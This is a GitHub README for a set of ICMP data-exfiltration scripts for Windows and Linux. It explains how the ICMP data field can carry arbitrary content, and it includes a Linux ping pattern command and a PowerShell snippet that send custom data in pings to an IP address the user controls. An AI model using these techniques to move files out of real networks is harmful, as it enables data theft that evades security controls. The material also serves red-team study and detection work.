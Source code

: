 # ICMP-Exfiltration-Scripts
This repository contains the necessary scripts to exfiltrate the contents of a file from a Windows or Linux machine using the ICMP protocol (ping requests) to a Linux machine under your control.

- **icmpExfiltration.py**: Python script to exfiltrate a file from a Linux machine.
- **winIcmpExfiltration.ps1**: Powershell script to exfiltrate a file from a Windows machine.
- **icmpCapture.py**: Script to capture the exfiltrated file.



## More Information
### Using ICMP for Data Exfiltration

Malicious actors can use ICMP (Internet Control Message Protocol) to exfiltrate data, exploiting the fact that organizations often overlook the risks associated with allowing outbound ICMP traffic.

### How Does It Work?

ICMP packets include an optional "Data" field of variable length, which can be used to transmit arbitrary information.

![ICMP Packet Structure](ICMP Exfiltration.png)

By default, if an ICMP echo request originates from a standard Windows ping, the data field will look something like this:

![Windows ICMP Data Field](ICMP Exfiltration-1.png)

However, if the request comes from a Linux system, the data field might look like this:

![Linux ICMP Data Field](ICMP Exfiltration-2.png)

### Modifying the Data Field

There are system tools available that allow us to write arbitrary information into this Data field.

#### *Linux*

- You can use the `-p` (pattern) flag with the `ping` command to send a specific sequence of up to 32 bytes (16 characters).
  
  ```bash
  ping -p <HEX_BYTES> <IP_ADDRESS>
  ```

  This command sends the specified hexadecimal byte sequence to the target IP address.

  ![Linux Ping Command Example](ICMP Exfiltration-3.png)

  ![Linux Ping Data Field Example](ICMP Exfiltration-4.png)

#### *Windows*

- In Windows, you can use PowerShell's `System.Net.NetworkInformation.Ping` to achieve a similar effect, and you can send more than 32 bytes.

  ```powershell
  $ping = New-Object System.Net.NetworkInformation.Ping
  $buffer = [Text.Encoding]::ASCII.GetBytes("YourDataHere")
  $ping.Send("IP_ADDRESS", 120, $buffer)
  ```

  This PowerShell script allows you to send custom data to the target IP address via ICMP echo requests.



### Practical Considerations

While using ICMP for exfiltration might bypass some security controls, it’s important to note that many modern security systems can detect and block unusual ICMP traffic patterns. For instance, an intrusion detection system (IDS) might flag a series of ICMP packets with non-standard data patterns.

Thus, while ICMP exfiltration can be effective in environments with less stringent monitoring, it's not foolproof and should be considered within the broader context of network security.

